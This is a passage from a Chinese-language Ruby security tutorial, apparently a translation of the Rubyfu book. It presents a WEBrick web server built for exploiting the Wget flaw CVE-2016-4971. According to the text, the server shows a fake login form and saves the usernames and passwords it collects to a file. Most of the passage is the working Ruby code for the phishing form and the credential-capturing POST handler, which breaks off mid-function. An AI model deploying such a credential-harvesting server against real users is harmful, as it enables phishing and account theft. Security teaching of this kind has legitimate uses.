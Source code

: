**高级 HTTP 服务器**

在处理 [CVE-2016-4971(Wget)](https://github.com/KINGSABRI/CVE-in-Ruby/tree/master/CVE-2016-4971) 漏洞利用时，需要更高级和自定义的行为。这里有一个带有虚假登录表单的 Web 服务器，它会将收集到的凭据保存到一个文本文件中。当您不需要对 apache 配置进行自定义或者您没有足够的权限这样做时，这将非常方便。它不需要了解像 Rails 或 Senatra 这样的 Web 框架。

```
#!/usr/bin/env ruby
#
# KING SABRI | @KINGSABRI
#
require 'webrick'

#
# Servlet: Is a Web Server with custom behavior class
# It's a subclass of WEBrick::HTTPServlet::AbstractServlet
#
class RubyfuServlet < WEBrick::HTTPServlet::AbstractServlet

  # Control 'GET' request/response
  def do_GET(req, res)
    res.status = 200
    res['Content-Type']   = "text/html; charset=UTF-8"
    res['Server']         = "Rubyfu WebServer"
    res['Cache-Control']  = "no-store, no-cache,"
    res.body              = print_login(req)
  end

  private
  # Show login
  def print_login(req)
    html = %q{
      <center>
        <table cellpadding="3" border="1">
        <tr><td colspan="2"><center><h4><b>Enter your Username and Password</b></h4></center></td></tr>
        <form method="POST" action="/login">
                <tr><td><strong><b>Username:</b></strong></td><td><input name="username" type="text"></td></tr>
                <tr><td><strong><b>Password:</b></strong></td><td><input name="password" type="password"></td></tr>
                <tr><td colspan="2"><center><h1><b><input type="submit" value="Login" /></b></h1></center></td></tr>
        </form>
        </table>
      </center>
    }
  end

end

class Login < WEBrick::HTTPServlet::AbstractServlet

  # Control 'POST' request/response
  def do_POST(req, res)
    status, content_type, body = save_login(req)
    res.body  = body
  end

  # Save POST request
  def save_login(req)
    username, password = req.query['username'], req.query['password']

    if !(username && password).empty?
      # Print Credentials to console
```